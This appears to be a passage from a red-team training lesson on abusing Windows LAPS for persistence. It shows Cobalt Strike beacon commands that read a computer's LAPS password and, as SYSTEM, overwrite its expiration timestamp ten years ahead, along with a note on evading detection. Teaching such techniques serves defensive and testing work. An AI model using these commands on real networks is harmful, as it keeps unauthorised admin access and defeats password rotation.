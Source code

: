 One of the LAPS policy settings is called "Do not allow password expiration time longer than required by policy".  In short, this is the _PwdExpirationProtectionEnabled_ configuration that we read from the Registry.pol file.  When enabled, this policy prevents a user or computer setting the expiration date of a password beyond the password age specified in the _PasswordAgeDays_ setting.  We also read from Registry.pol that this is set to 30 days.  For instance - if a password is set on 1st January 2022, its expiration will be 31st January 2022.  If password expiration protection is enabled and we attempted to modify its expiration date beyond 31st January, it would trigger an automatic reset of that password.

If the policy setting is left "not configured" in the GPO, then password expiration protection is disabled by default.

Since we were able to compromise WKSTN-1 using its LAPS password, we can set its expiration long into the future as a form of persistence.  The expiration date is an 18-digit timestamp calculated as the number of 100-nanosecond intervals that have elapsed since 1st January 1601 (don't ask).
```
beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime

ms-mcs-admpwdexpirationtime ms-mcs-admpwd 
--------------------------- ------------- 
         133101494718702551 1N3FyjJR5L18za
```

Where `133101494718702551` is Thursday, 13 October 2022 15:44:31 GMT.

  [https://www.epochconverter.com/ldap](https://www.epochconverter.com/ldap) can translate between these timestamps and human-readable formats.

  

If we wanted to push the expiry out by 10 years, we can overwrite this value with `136257686710000000`.  Every computer has delegated access to write to this password field, so we must elevate to SYSTEM on WKSTN-1.
```
beacon> run hostname
wkstn-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object 'WKSTN-1$'
```

  **OPSEC**  
  
The expiration date will still be visible to admins and a manual reset will change the password and restore the expiration date.  
  
![](https://files.cdn.thinkific.com/file_uploads/584845/images/411/f2f/065/laps-ui.png)